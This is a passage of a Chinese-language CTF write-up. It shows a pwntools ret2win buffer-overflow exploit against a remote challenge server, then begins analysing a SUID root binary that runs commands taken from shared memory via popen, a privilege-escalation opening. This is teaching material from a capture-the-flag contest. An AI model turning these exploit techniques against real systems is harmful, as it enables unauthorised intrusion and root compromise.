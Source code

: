 其實就真的是非常簡單的ret2win，但題目沒有給執行檔，所以可以從Docker裡面翻看看是怎麼編譯的。

`
gcc /home/ctf/chall.c -o /home/ctf/chall -fno-stack-protector -z execstack -no-pie
`

exp:

```py
from pwn import *

context.arch='amd64'
r=remote('chal.78727867.xyz',9999)
#r=process('./chall')

p=b'A'*72+p64(0x40101a)+p64(0x4011b6)
#gdb.attach(r)
r.sendlineafter(b':',p)

r.interactive()
```

到底這題為什麼沒有貶到100分?

### [475] Server Status

跟Server Status Revenge一模一樣解法，先解比較難題目的好處?

### [484] Server Status Revenge

![image](https://hackmd.io/_uploads/ByIzQZKSgg.png)

題目給了個SSH，連線到伺服器後，發現家目錄下只有一個名為 server_status 的檔案，執行 `./server_status`，得到以下輸出：

```
=== Server Status Monitor v1.0 ===
System diagnostic tool with root privileges
Running with elevated privileges (UID: 0, GID: 0)
...
=== Command Output ===
dmesg: read kernel buffer failed: Operation not permitted
=== End of Output ===
...
```

所以可以猜測這是一題利用 SUID+Privilege Escalation漏洞，打開家目錄也果然有flag。因為題目沒有任何逆向工具，所以我是直接`cat server_status`，然後可以看到很多亂碼跟大量與共享記憶體相關的函式`shmget`, `shmat`, `shmdt`,`popen`。

所以可以假設初步結論:server_status是一個SUID root程式，它會從共享記憶體中讀取一個指令，然後用popen執行它。

ps:
- `shmget`：取得共享記憶體段。

- `shmat`：將共享記憶體段 attach 到自己的記憶體空間。

- `shmdt`：detach。
